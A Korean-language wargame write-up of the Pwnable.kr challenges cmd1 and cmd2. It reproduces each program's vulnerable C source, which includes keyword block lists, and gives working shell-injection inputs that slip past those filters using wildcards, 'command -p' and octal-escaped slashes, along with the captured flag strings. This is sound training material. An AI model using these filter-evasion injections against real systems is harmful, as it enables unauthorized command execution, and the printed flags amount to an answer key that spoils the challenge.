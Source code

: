 ```yaml
---
title : Pwnable.kr - cmd1 & cmd2
categories : [Wargame, Pwnable.kr]
---
```


# cmd1
```
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```
```c
/*  cmd1.c  */

#include <stdio.h>    
#include <string.h>   

int filter(char* cmd){
        int r=0;      
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

# Solution
```
cmd1@pwnable:~$ ./cmd1 '/bin/cat fla*'
mommy now I get what PATH environment is for :)
```

# cmd2 (풀이 봄)
```
Daddy bought me a system command shell.
but he put some filters to prevent me 
from playing with it without his permission...
but I wanna play anytime I want!
```
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```

# cmd2 Solution(풀이 봄)
```
/bin/cat fla* 가 불가능함.

엄청 오래 생각해봤지만.. 실패해서 답지를 확인함. 

내가 풀이를 보면서 이해한 방법은 두 가지가 있음.
```

## 1. command 명령어 사용
```linux
$ help -- command
command: command [-pVv] command [arg ...]
    Execute a simple command or display information about commands.

    Runs COMMAND with ARGS suppressing  shell function lookup, or display
    information about the specified COMMANDs.  Can be used to invoke commands
    on disk when a function with the same name exists.

    Options:
      -p    use a default value for PATH that is guaranteed to find all of
            the standard utilities
      -v    print a description of COMMAND similar to the `type' builtin
      -V    print a more verbose description of each COMMAND

    Exit Status:
    Returns exit status of COMMAND, or failure if COMMAND is not found.
```
```
command 명령어는 cat 같은 간단한 명령어들을 실행시켜 줄 수 있음. 

command -p 를 해주면 defalut PATH 값으로 명령어를 실행시켜줌.
```
```linux
cmd2@pwnable:~$ ./cmd2 'command -p cat fla*'
command -p cat fla*
FuN_w1th_5h3ll_v4riabl3s_haha
```

## 2. linux ascii-code 중 oct 값 사용
<a href="http://www.seren.net/documentation/unix%20utilities/Linux_Cheat_Sheet.htm" target="_blank">http://www.seren.net/documentation/unix%20utilities/Linux_Cheat_Sheet.htm</a>  
Linux Cheat Sheet에 보면 위에 있는 command 명령어도 써있고, 밑에 ASCII-CODE 값도 있음.  
```
dec hex oct char
46  2E \056  .

47  2F \057  /

48  30 \060  0
```
```linux
cmd2@pwnable:~$ ./cmd2 '$(echo "\057"bin"\057"cat fla*)'
$(echo "\057"bin"\057"cat fla*)
FuN_w1th_5h3ll_v4riabl3s_haha
```
printf 명령어로도 되는지 확인해보았음. 
필터링에 걸리는지 확인해보려고 로컬 환경에서 테스트 해봄.
```linux
:~$ ./test '$(printf "\x2fbin\x2fcat fla*")'
0
argv[1] : $(printf "\x2fbin\x2fcat fla*")
:~$ printf "\x2fbin\x2fcat fla*"
/bin/cat fla*
```
잘 나오는 것 같아서 해보니까 실패함.
```linux
cmd2@pwnable:~$ ./cmd2 '$(printf "\x2fbin\x2fcat fla*")'
$(printf "\x2fbin\x2fcat fla*")
sh: 1: \x2fbin\x2fcat: not found
```
직접 system 함수에 인자로 줘봤지만 echo만 나오고 실패.   
그냥 안되나봄.  
